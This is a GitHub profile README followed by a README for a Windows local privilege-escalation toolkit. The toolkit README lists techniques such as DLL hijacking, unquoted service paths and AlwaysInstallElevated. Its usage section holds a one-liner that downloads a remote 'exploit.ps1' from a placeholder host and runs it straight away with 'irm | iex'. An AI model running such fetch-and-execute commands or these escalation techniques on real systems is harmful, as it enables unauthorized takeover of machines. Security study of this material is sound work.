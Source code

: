 <h1 align="left">Hey 👋 What's up?</h1>

###

<p align="left">Hello my name is Abbas Aghayev but internet knows me as d3hack. Can be d3hvck or d3hxck. If you can help me on anything, please do it. Love to share and work together with any professional.</p>

###

<h2 align="left">About me</h2>

###

<p align="left">✨ Im hacking Windows since 2011<br>📚 I'm currently learning AD DC and Advanced Penetration Testing Methods<br>🎯 Goals: Being HEAD OF CYBERSECURITY DIVISION<br>🎲 Fun fact: Do not trust any code on internet</p>

###

<h2 align="left">I work with</h2>

###

<div align="left">
  <img src="https://skillicons.dev/icons?i=powershell" height="40" alt="powershell logo"  />
  <img width="12" />
  <img src="https://cdn.simpleicons.org/c++/00599C" height="40" alt="cplusplus logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/c/c-original.svg" height="40" alt="c logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/vscode/vscode-original.svg" height="40" alt="vscode logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/python/python-original.svg" height="40" alt="python logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/windows8/windows8-original.svg" height="40" alt="windows8 logo"  />
</div>

###

<img align="left" height="400" src="https://raw.githubusercontent.com/d3hvck/WinPrivEsc/refs/heads/main/WindowsExploited.webp"  />

###

<div align="center">
  <img src="https://profile-counter.glitch.me/d3hvck/count.svg?"  />
</div>

###

<div align="center">
  <img src="https://github-read-medium-git-main.pahlevikun.vercel.app/latest?limit=4&username=@aghayev2a" alt="Layout with last medium posts"  />
</div>

###


# Windows Local Privilege Escalation

This tools is developed, tested and refined by "d3hack"
Like Uncle Ben said, "With great power comes great responsibility." But in our case...
💀 With great shell access comes absolute domination. 💀

Tested on win11 pro


Primary focused to escalate privileges: 

    - DLL Hijacking [+]

    - Service binPath [+]
    
    - Service UnquotedPathSvc [+]
    
    - Service Registry [+]
    
    - Service ExecFile  [+]

    - Registry Autorun [+]
    
    - Registry AlwaysInstallelevated [+] 

    - TrustedInstaller
    
    - Password Mining (Memory/Registry/Config File)

    - Scheduled Task [+]
    
    - Startup Application [+]

## Authors

- [d3hack @ LinkedIn ](https://linkedin.com/in/aghayev2a)

- [d3hvck @ Github  ](https://github.com/d3hvck)

## Usage

For extremely accuracy please run every scripts one by one 

```bash
  irm https://githubrawfilelink.com/blablabla/exploit.ps1 | iex 
```

```bash
  <> operator
  - dash
  / shash
  \ revers-shlash
  = equal
  $ val / def
  ' quot
  " double quot
```

Absolute Path in quotes:

 "C:\Program Files\Vuln Service\DLL.exe"

Relative Path
Windows
cmd.exe

Vuln Service Looks Like:

 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln.exe Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service.exe x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 
